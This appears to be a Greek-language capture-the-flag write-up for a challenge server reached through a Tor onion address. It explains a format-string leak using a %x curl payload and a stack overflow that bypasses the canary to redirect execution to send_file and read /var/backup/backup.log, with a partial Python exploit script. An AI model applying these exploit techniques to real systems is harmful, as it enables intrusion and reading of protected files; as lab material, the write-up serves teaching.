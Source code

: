 Στο script αυτό αρχικά δίνουμε σαν input το αποτέλεσμα που πήραμε από την printf, φτιάχνουμε τα data, που έχουν την μορφή ``canary's address*15 + canary+ 3*values + address of call serve_ultime in route``. Τα 3 values είναι οι 2 τιμές ανάμεσα στο canary και τον $ebp και ο $ebp που δεν μας νοιάζει τι τιμές θα έχουν.

Για να τρέξει το request είχαμε πρώτα τρέξει 
```socat TCP4-LISTEN:8000,bind=127.0.0.1,fork SOCKS4A:localhost:zwt6vcp6d5tao7tbe3je6a2q4pwdfqli62ekuhjo55c7pqlet3brutqd.onion:80,socksport=9050```
. Για το socat εμπνευστήκαμε από το μήνυμα στην αρχή του ερωτήματος 2 ``socat + onions = perfect recipe``.
Επίσης για να πάρουμε αποτελέσματα από την printf τρέχαμε
```curl --socks5-hostname localhost:9050 'zwt6vcp6d5tao7tbe3je6a2q4pwdfqli62ekuhjo55c7pqlet3brutqd.onion/ultimate.html' -i --user %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x: --data-raw 'ok' -H 'Content-Length: 0'```

Τρέχοντας το script πήραμε το αποτέλεσμα
```
Thanks for the coins, I knew I can do business with you.

Your ssh access to the server should be restored, you can find your
files under /var/backup/ (see 'backup.log' for a list).

To avoid losing your files again, hire us!
5l0ppy 8uff00n5 can help you fix all your security issues.
Use the code tmmt8pN_lj4 to get 20% off our usual rates!
```
Άρα τα αρχεία του Plan X βρίσκονται στο __/var/backup/__

#### Ερώτημα 4

Στο ερώτημα αυτό έπρεπε να δούμε τα περιεχόμενα του __/var/backup/backup.log__. Για να το επιτύχουμε αυτό επιλέξαμε να χρησιμοποιήσουμε την συνάρτηση send_file με όρισμα το /var/backup/backup.log. Το attack βασίστηκε σε αυτό που κάναμε στο 3 με μερικές αλλαγές.

Αρχικά το return address έπρεπε να μας επιστρέφει στην send_file. Για να γίνει αυτό βρήκαμε τοπικά την απόσταση του return address που επιστρέφει η vulnerable printf και το αφαιρέσαμε από την τοπική διεύθυνση της send_file για να βρούμε το offset τους. Το offset αυτό το προσθέτουμε στο αντίστοιχο remote return address για να βρούμε την διεύθυνση της send_file στο remote server. Επιπλέον τοποθετήσαμε το string /var/backup/backup.log στην αρχή του buffer και θέσαμε της μεταβλητές μνήμης που βρίσκονται στο return address+4 και return address+8(δηλαδή της παραμέτρους της συνάρτησης) να δείχνουν στην διεύθυνση της αρχής του buffer όπου ξεκινάει το string. Επίσης στο τέλος του string τοποθετήσαμε 2 & για να δείξουν ότι εκεί τελειώνει(τα & μετατρέπονται σε \0 στην post_param).

To script μας __call_send_file.py_ που δημιουργεί το attack string που έχει μορφή ``"/var/backup/backup.log" + "&&" + (address of canary)*10 + canary + 3*values + address of send_file + (address of "/var/backup/backup.log")*2``:
```python
import requests, sys, os
from requests import Request, Session,exceptions


split = sys.argv[1]

last40 = split[-40:]

returnaddress = str(hex(int(last40[32:40],16) + 1625))

temp =  int(last40[24:32],16) - 232
canaryaddress = str(hex(temp))

canary = str(hex(int(last40[0:8],16) + 38))

#address of char*
single_pointer= str(hex(int(last40[24:32],16) - 232))

data = b"/var/backup/backup.log"
data += b"&&"
data += bytes.fromhex(canaryaddress[2:])[::-1]

```